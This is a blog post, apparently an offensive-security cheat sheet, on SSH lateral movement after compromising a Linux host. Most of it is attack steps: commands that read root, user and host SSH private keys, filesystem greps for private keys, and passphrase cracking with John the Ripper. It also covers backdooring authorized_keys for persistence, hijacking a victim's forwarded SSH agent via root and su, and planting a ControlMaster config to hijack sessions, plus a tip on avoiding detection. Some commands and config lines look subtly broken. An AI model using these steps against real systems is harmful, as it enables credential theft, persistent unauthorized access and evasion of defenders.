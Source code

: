 ```yaml
---
layout: blog_item
title: "SSH Lateral Movement Cheat Sheet"
date:   2021-06-03 15:29:10
author: Arr0way
description: 'SSH lateral movement cheat sheet, a collection of lateral movement techniques to move deeper through the network.'
categories: [cheat-sheet]
tags:

- 'Linux Lateral Movement'
---
```


* list element with functor item
{:toc}

## What is a Lateral Movement 

A lateral movement typically occurs after a host has been compromised via a reverse shell, and foothold in the network is obtained. Fully compromising the target machine by performing Linux privilege escalation or Windows privilege escalation could be adventagious due to the increased access to files or operating system functionality leveraged by a root level account.

This article focuses specifically on SSH lateral movement techniques on Linux.

<!--more-->

## SSH Lateral Movement 

SSH private keys are typically an easy way to progress through the network, and are often found with poor permissions or duplicated in home directories. This article does not cover SSH pivoting in depth, we have a seperate resource for [SSH pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/).  

<div class="note info">
  <h5>SSH is no longer specific to Linux hosts only</h5>
  <p>SSH is no longer specific to Linux hosts only, consider enumerating Windows target for private keys.</p>
</div>

### Manually Look for SSH Keys

Check home directories and obvious locations for private key files: 

{% highlight bash %}

/home/*
cat /root/.ssh/authorized\_keys 
cat /root/.ssh/identity.pub 
cat /root/.ssh/identity 
cat /root/.ssh/id\_rsa.pub 
cat /root/.ssh/id\_rsa 
cat /root/.ssh/id\_dsa.pub 
cat /root/.ssh/id\_dsa 
cat /etc/ssh/ssh\_config 
cat /etc/ssh/sshd\_config 
cat /etc/ssh/ssh\_host\_dsa\_key.pub 
cat /etc/ssh/ssh\_host\_dsa\_key 
cat /etc/ssh/ssh\_host\_rsa\_key.pub 
cat /etc/ssh/ssh\_host\_rsa\_key 
cat /etc/ssh/ssh\_host\_key.pub 
cat /etc/ssh/ssh\_host\_key
cat ~/.ssh/authorized\_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id\_rsa.pub 
cat ~/.ssh/id\_rsa 
cat ~/.ssh/id\_dsa.pub 
cat ~/.ssh/id\_dsa 

{% endhighlight %}

### Search For Files Containing SSH Keys

{% highlight bash %} 
grep -irv "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -irv "BEGIN DSA PRIVATE KEY" /home/*

grep -irv "BEGIN RSA PRIVATE KEY" /*
grep -irv "BEGIN DSA PRIVATE KEY" /*

{% endhighlight %}


### Identify The Host for the Key

<div class="note tip">
  <h5>Hashed known_hosts</h5>
  <p>Modern Linux systems may hash the known_hosts file entries to help prevent against enumeration.</p>
</div>

If you find a key you then need to identify what server the key is for. In an attempt to idenitfy what host the key is for the following locations should be checked: 

{% highlight bash %}
/etc/hosts 
~/.known_hosts
~/.bash_history 
~/.ssh/config 
{% endhighlight %}

### Cracking SSH Passphrase Keys

If the discovered SSH key is encrypted with a passphrase this can be cracked locally (much faster), below are several methods. If you have access to a GPU hashcat should be leveraged to improve the cracking time. 

#### Cracking SSH Passphrase with John the Ripper 

John the Ripper has a function to convert he key to a hash called john2hash.py and comes pre installed on Kali.

1. Convert the hash: python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash-john 
2. Use a comprehensive wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash-john 
3. Wait and hope 

<div class="note warning">
  <h5>Help Avoid Detection</h5>
  <p>Avoid directly connecting from a unknown host to the target SSH server, use an already known host to help prevent detection alerts being issued. </p>
</div>

### SSH Passphrase Backdoor

While you have access to the compromised host, it is typically a good idea to backdoor the SSH authorized_keys file which will allow for passwordless login at a point in the future. This should provide an easier and more reliable connection than exploiting and accessing via a reverse shell; and potentially reduce the risk of detection. 

Adding the key is simply a case of paste a SSH public key, generated on your attacking machine and pasting it into the ~/ssh/authorized_keys file on the compromised machine. 

1. run ssh-keygen -t rsa -b 4096 
2. cat id_rsa.pub and copy the file contents 
3. echo "SSH key data" >> ~/.ssh/authorized_keys 
4. Test you can connect using the private key without being prompted for a password 

## SSH Agent Forwarding Hijacking

Starting point: You have SSH already backdoored the compromised host by adding your public key to the ~/.authorized_keys file.  

### How SSH Agent Works

SSH agent works by allowing the Intermediary machine to pass-through (forward) your SSH key from your client to the next downstream server, allowing the machine in the middle (potentially a bastian host) to use your key without having physical access to your key as they are not stored on the intermediate host but simply forwarded on to the downstream target server. 

- Access the machine where the existing victim user session is established
- Root level access to the machine where the victim session is established
- A current victim SSH  connection with agent forwarding enabled 

Your Machine => Intermediary Host (forwards your key) => Downsteam Machine 

#### The Risk

The risk here is that if you have an open session and the intermedatory machine 

### How To Hijack SSH Agent Forwarding

Attacking Machine => Compromised Intermediary Host (with SSH Key) => Downsteam Machine (final destination) 

SSH agent forwarding allows a user to connect to other machines without entering passwords. This functionality can be exploited to access any host the compromised users SSH key has access to (without having direct access to the keys), while there is an active session. 

A potentially easier way to think of SSH agent forwarding, is to think of it as assigning the SSH key to the active SSH session, while the session is in place it is possible to access the SSH key and connect to other machines that the SSH key has access.     

In order to exploit SSH agent forwarding an active session must be open between the users client (that you wish to hijack) and the compromised intermediary host. You will also require access to the host where the user connect is with a superuser account with the privilages (such as ```su - username```) to access the account running the active SSH session you wish to hijack. 

<div class="note tip">
  <h5>If -A SSH Connection Fails</h5>
  <p>If -A fails to connect, perform the following: ```echo "ForwardingAgent yes" >> ~/.ssh/config``` to enable agent forwarding. </p>
</div>

#### Client Instructions 

Run the following on your local client machine: 

You may need to create a new key, if so run ```ssh-add```. 

1. Open an SSH connection using agent forwarding to the compromised host  ```ssh -A user@compromsied-host``` 
2. Verify agent forwarding is working by using: ```ssh-add -l```
3. Obtain root: ```sudo -s```
4. Gain access to the account you wish to access:  ``` su - victim ```
5. Access any SSH connection the private key of the victim has access 

### SSH Hijacking with ControlMaster 

OpenSSH has an function called **ControlMaster** that enables the sharing of multiple sessions over a single network connection. Allowing you to connect to the server once and have all other subsequent ssh sessions use the initial connection. 

In order to exploit SSH ControlMaster you first need shell level access to the target, you will then need sufficient privileges to modify the config of a user to enable the  ControlMaster functionality.

1. Gain shell level access to the target machine 
2. Access the victim users home directory and create / modify the file ``` ~/.ssh/config ``` 
3. Add the following configuration: 

{% highlight bash %}
Host *

ControlMaster auto
~/.ssh/master-socket/%r@%h:%p
ControlPersist yes
{% endhighlight %}

4. ensure the master-socket directory exists if it does not, create it  ```mkdir ~/.ssh/master-socket/ ``` 
5. Ensure the correct permissions are in place for the config file  ```chmod 600 ~/.ssh/config ```
6. Wait for the victim to login and establish a connection to another server 
7. View the directory created at step 4 to observe the socket file:  ```ls -lat ~/.ssh/master-socket ```
8. To hijack the existing connection ssh to user@hostname / IP listed in step 7 


If you know of more techniques let me know on twitter @Arr0way 

Enjoy. 
